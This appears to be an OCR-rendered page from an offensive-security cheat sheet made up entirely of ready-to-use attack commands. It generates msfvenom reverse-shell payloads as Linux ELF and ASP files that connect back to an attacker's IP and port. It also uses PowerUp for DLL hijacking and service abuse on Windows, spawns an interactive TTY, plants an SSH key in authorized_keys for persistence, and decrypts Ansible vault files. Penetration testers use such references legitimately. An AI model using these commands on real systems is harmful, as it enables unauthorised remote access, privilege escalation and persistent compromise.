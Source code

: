 ## Linux 64bit shell reverse tcp
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```

## ASP reverse_tcp
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

# PowerUp.ps1
## DLL Hijacking
```
Write-HijackDll -DllPath 'C:\Users\ted\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll' -UserName '<domain>\username'
```

## ServiceAbuse
```
Invoke-ServiceAbuse -Name 'vds' -UserName '<domain>\username'
```

# Linux
## Spawn TTY
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## JFrog
```
/opt/jfrog/artifactory/var/backup/access
```

## Insert SSH key
```
echo '<id_rsa.pub> >>' authorized_keys
```

## Exec ansible
```
ansible-playbook <yml>
```

## Ansible vault decrypt
```
cat <file.yml> | ansible-vault decrypt
```
